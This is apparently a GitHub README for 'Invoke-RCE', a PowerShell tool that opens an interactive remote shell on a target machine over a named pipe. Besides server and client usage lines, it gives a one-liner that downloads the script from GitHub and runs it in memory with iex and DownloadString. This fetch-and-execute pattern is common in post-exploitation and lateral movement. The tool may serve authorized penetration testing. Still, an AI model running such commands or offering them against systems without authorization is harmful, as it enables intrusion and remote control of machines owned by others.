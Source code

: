 # Invoke-RCE
A script to gain an interactive shell (Remote-Command-Execution) over a target system

Note: The user you run the script as (client) needs to be administrator over the target system (server)

Run the same script on the target and client system as follows:

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-RCE/main/Invoke-RCE.ps1')
```

### Server
```
Invoke-RCE -Server
```
```
Invoke-RCE -Server -PipeName Something
```

### Client
```
Invoke-RCE -Client -Target "Workstation-01.ferrari.local"
```
```
Invoke-RCE -Client -Target "Workstation-01.ferrari.local" -PipeName Something
```
